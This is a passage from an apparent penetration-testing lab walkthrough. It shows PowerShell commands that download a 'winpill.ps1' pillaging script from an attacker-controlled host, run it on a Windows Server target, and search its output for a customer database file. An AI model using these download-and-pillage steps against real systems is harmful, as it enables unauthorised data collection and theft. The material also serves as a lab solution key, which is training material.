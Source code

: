 Code: powershell

```powershell
cd ~
iwr -uri http://PWNIP:8000/winpill.ps1 -o winpill.ps1
```

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd ~
PS C:\Users\john> iwr -uri http://10.10.14.73:8000/winpill.ps1 -o winpill.ps1
```

Next, students will execute the PowerShell script to perform Windows pillaging:

Code: powershell

```powershell
.\winpill.ps1
```

```
PS C:\Users\john> .\winpill.ps1

Extended Pillaging Script for Penetration Testing
This script is intended for authorized penetration testing only.
Ensure you have explicit permission to run this on the target system.
Unauthorized use may violate laws and regulations.

Data will be exported to: C:\Pillaging_2025-03-21_06-18-28
Started at: 2025-03-21_06-18-28

Collecting System Information...
=== System Information ===

Caption                                Version    BuildNumber OSArchitecture LastBootUpTime
-------                                -------    ----------- -------------- --------------
Microsoft Windows Server 2019 Standard 10.0.17763 17763       64-bit         3/21/2025 5:53:14 AM

<SNIP>
```

Students will query the `InterestingFiles.csv` file for any files related to `.csv` in the `C:\Pillaging_` directory, finding a single file `cusomter_database.csv`:

Code: powershell

```powershell
type C:\Pillaging_<DATE>\InterestingFiles.csv | findstr /i csv
```

```
PS C:\Users\john> type C:\Pillaging_2025-03-21_07-50-27\InterestingFiles.csv | findstr /i csv

"C:\Users\Administrator\customer_database.csv","45729","2/25/2025 6:21:33 AM"
```
